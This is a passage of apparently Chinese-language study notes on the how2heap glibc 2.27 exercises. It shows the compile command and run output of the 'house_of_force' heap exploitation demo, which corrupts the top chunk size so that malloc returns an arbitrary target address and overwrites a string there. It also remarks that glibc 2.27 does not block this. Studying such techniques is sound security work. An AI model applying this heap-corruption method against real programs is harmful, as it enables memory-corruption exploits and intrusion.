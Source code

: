 \subsection{house\_of\_force}

编译，运行：
\begin{verbatim}
root in ~/how2heap-g227 at iZwz9eo57jnmoquu8r2fg0Z took 10s 
$ gcc -g3 -L/root/tmpwork/g227/lib -Wl,--rpath=/root/tmpwork/g227/lib -Wl,--dynamic-linker=/root/tmpwork/g227/lib/ld-linux-x86-64.so.2 house_of_force.c -o house_of_force

root in ~/how2heap-g227 at iZwz9eo57jnmoquu8r2fg0Z 
$ ./house_of_force                                                                                                                                                 
We will overwrite a variable at 0x601080

Let's allocate the first chunk of 0x10 bytes: 0x1165260.
Real size of our allocated chunk is 0x18.

Overwriting the top chunk size with a big value so the malloc will never call mmap.
Old size of top chunk: 0x20d91
New size of top chunk: 0xffffffffffffffff

The value we want to write to at 0x601080, and the top chunk is at 0x1165278, so accounting for the header size, we will malloc 0xffffffffff49bdf8 bytes.
As expected, the new pointer is at the same place as the old top chunk: 0x1165280
malloc(0x30) => 0x601080!

Now, the next chunk we overwrite will point at our target buffer, so we can overwrite the value.
old string: This is a string that we want to overwrite.
new string: YEAH!!!
\end{verbatim}

glibc-2.27不能防御house\_of\_force的利用。

\subsection{poison\_null\_byte}

